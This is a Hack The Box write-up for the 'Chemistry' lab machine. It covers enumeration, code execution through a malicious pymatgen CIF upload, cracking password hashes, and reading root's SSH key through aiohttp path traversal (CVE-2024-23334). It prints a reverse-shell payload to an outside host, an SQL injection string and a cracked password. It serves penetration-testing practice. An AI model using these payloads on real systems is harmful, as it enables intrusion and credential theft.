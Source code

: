 # Hack The Box - Chemistry (10.10.11.38)

## Overview
**Chemistry** is a medium-difficulty Linux machine on Hack The Box. It leverages a file upload vulnerability in the `pymatgen` library, weak password reuse, and a local file inclusion in an aiohttp service to ultimately gain root access.

---

## 🔍 Enumeration

### Nmap Scan
```bash
nmap -p- chemistry.htb --min-rate 10000
```
**Open ports:**
- `22/tcp` - OpenSSH 8.2
- `5000/tcp` - Werkzeug HTTP server (Python 3.9.5)

```bash
nmap -p 22,5000 chemistry.htb -sCV -oN nmapscan -T5
```
**Notable results:**
- Werkzeug web app with title: `Chemistry - Home`

---

## 🌐 Web Enumeration
Accessing port **5000**, we find a web interface that allows uploading `.cif` (Crystallographic Information Format) files for analysis.

Attempted SQLi on login: `admin' OR 1=1 LIMIT 1;-- -` → Failed.

Example `.cif` file provided:
```
_cell_length_a    10.00000
loop_
 _atom_site_label
 _atom_site_fract_x
...
```

---

## ⚙️ Exploitation - RCE via CIF Upload

Research revealed a known vuln in `pymatgen`: [GHSA-vgv8-5cpj-qj2f](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)

Uploaded `.cif` with:
```python
[().__class__.__mro__[1].__subclasses__()...].load_module("os").system("bash -c 'bash -i >& /dev/tcp/10.10.14.12/1331 0>&1'")
```

Result: Reverse shell as user `app`

---

## 🐚 Shell Stabilization
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-256color
```

---

## 🔍 Post-Exploitation - SQLite Hash Dump
Found: `/home/app/instance/database.db`

```bash
sqlite3 database.db
.tables
SELECT * FROM user;
```
Extracted user hashes → Cracked with CrackStation
- `rosa:unicorniosrosados` ✅

---

## 🔐 SSH as Rosa
```bash
ssh rosa@chemistry.htb
```
Got shell as `rosa`, no sudo privileges.

---

## 🕵️‍♀️ Privilege Escalation - LFI via aiohttp

Discovered `localhost:8080` running aiohttp.
```bash
ss -tuln | grep 8080
ssh -L 8081:127.0.0.1:8080 rosa@chemistry.htb
```

**CVE-2024-23334** → aiohttp LFI exploit:
- [PoC Script](https://raw.githubusercontent.com/TheRedP4nther/LFI-aiohttp-CVE-2024-23334-PoC/main/lfi_aiohttp.sh)

Used to read:
- `/root/root.txt`
- `/root/.ssh/id_rsa`

---

## 🧑‍💻 Root Access
```bash
ssh -i id_rsa root@localhost
```

---

## ✅ Summary
| Stage              | Technique                                       |
|-------------------|-------------------------------------------------|
| Foothold          | RCE via CIF upload (`pymatgen` vuln)            |
| User Escalation   | Cracked password from SQLite DB                 |
| Privilege Escalation | LFI in aiohttp (CVE-2024-23334)              |
| Root Access       | SSH via dumped `/root/.ssh/id_rsa`              |

---

## 🧠 Lessons Learned
- Always validate file parsing libraries for RCE vectors.
- aiohttp's path handling (pre-3.9.2) can be abused for LFI.
- Weak password reuse between DB and system accounts = easy win.

---

*Report by [Your Name] – [Portfolio or GitHub Link]*
